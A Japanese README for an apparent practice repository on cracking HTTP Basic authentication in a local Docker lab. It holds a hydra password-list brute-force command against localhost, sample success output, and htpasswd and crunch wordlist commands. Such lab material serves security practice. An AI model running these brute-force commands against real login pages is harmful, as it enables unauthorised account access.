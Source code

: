 # Basic認証を突破する練習レポジトリ

## 立ち上げ

```
docker-compose build
docker-compsoe up
```

## コンテナの中に入ってhydra実行

```
docker exec -ti basic-auth /bin/bash
cd password-list/
hydra -l username -P password-list.txt localhost http-get /index.html
```

成功したら以下のようになる

```
[80][http-get] host: localhost   login: username   password: password
1 of 1 target successfully completed, 1 valid password found
```

## デバッグ用

### コンテナの中に入ってパスワード生成

```
docker exec -ti basic-auth /bin/bash
# 既存ファイルが上書きされるので注意
htpasswd -c /etc/nginx/.htpasswd [ユーザ名]
```

### 単語生成

```
docker exec -ti basic-auth /bin/bash
crunch 3 7 abcdefghijklmnopqrstu

aaa
aab
aac
aad
aae
aaf
aag
aah
aai
.
.
.
```